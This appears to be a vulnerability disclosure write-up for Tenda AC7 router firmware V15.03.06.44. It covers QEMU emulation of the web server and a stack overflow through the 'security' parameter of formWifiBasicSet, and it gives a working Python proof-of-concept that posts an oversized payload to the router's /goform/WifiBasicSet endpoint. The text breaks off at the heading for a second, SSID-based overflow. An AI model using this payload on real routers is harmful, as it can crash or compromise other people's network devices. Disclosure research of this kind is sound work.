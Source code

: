 Overview
--
Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### Environmental simulation
need build Network bridge:

```text-x-haskell
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7__V15.03.06.44_httpd_ok file in this project) (modify the assembly to force skip the environment check step):
https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok

qemu command：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
-----

V15.03.06.44

formWifiBasicSet security stackoverflow
---------------------------------------

### Vulnerability Details

A stack-based buffer overflow vulnerability in firmware version TenDa AC7 V15.03.06.44 allows a remote attacker to execute arbitrary code through a stack overflow attack using the security parameter of the formWifiBasicSet function.

formWifiBasicSet

![image](https://github.com/user-attachments/assets/e26eb16c-55bc-4efb-a304-52333fd7ca20)


formWifiBasicSet takes the parameter security from user input, but does not validate the length of user input.

After that, the function copies security directly into param via functions, resulting in a stack overflow vulnerability. strcpy

![image](https://github.com/user-attachments/assets/b8578afc-8f15-4b33-a945-0a7e9480dd61)


### poc

```text-plain
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'security': b'R' * 0x1000}

headers = {
    'Host': '192.168.142.100',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.142.100/goform/WifiBasicSet'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

![image](https://github.com/user-attachments/assets/c765e381-4c11-4af6-99ed-cf4559816269)

formWifiBasicSet  ssid stackoverflow
------------------------------------

### Vulnerability Details
